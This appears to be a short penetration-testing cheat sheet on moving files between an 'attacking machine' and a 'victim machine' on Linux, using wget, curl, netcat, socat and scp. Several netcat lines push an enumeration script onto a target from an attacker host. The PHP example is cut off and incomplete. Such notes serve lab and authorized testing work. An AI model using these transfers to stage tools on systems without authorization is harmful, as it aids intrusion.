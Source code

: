 ## Linux File Transfer

-- Wget

wget 192.168.1.102:9999/file.txt

- Curl

curl -O http://192.168.0.101/file.txt

- Netcat

On attacking machine:
nc -lvp 4444 < file

On target machine:
nc 192.168.1.102 4444 > file

So on the victim-machine we run nc like this:
nc -lvp 3333 > enum.sh

And on the attacking machine we send the file like this:
nc 192.168.1.103 < enum.sh

I have sometimes received this error:
This is nc from the netcat-openbsd package. An alternative nc is available

I have just run this command instead:
nc -l 1234 > file.sh

- Socat
Server receiving file:
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
Server sending file:
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

With php
echo "" > down2.php

- SCP
Now we can copy files to a machine using scp
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
